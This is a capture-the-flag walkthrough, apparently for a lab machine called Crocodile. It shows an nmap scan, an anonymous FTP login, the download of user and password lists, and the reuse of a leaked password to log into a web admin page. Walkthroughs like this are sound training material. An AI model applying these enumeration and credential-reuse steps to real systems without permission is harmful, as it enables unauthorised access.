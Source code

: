 ![Crocodile.jpg](/assets/Tier-1/Crocodile/crocodile.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.1.15
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.1.15
```

**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

3. Web Page and **login.php**
![Crocodile-web.PNG](/assets/Tier-1/Crocodile/crocodile-web.PNG)
![Crocodile-login.PNG](/assets/Tier-1/Crocodile/crocodile-login.PNG)


4. Connect to **ftp** and put **anonymous** how user.
```bash
┌──(root㉿est)-[/home/kali]
└─| ftp 10.129.1.15
Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:kali): anonymous
230 Login successful.
```

5. Show all files
```bash
ftp> dir
229 Entering Extended Passive Mode (|||48217|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

6. Get all files and show the content
```bash
ftp> get allowed.userlist.passwd
ftp> get allowed.userlist
```
---
```bash
┌──(root㉿est)-[/home/kali]
└─| cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                                                                     
┌──(root㉿est)-[/home/kali]
└─| cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

7. Try to login in **login.php**
```
user: admin
password: rKXM59ESxesUFHAd
```
  
![Crocodile-login2.PNG](/assets/Tier-1/Crocodile/crocodile-login2.PNG)

8. **BOOM** Obtain the flag
![Crodile-flag.PNG](/assets/Tier-1/Crocodile/crocodile-flag.PNG)


**By: EsT**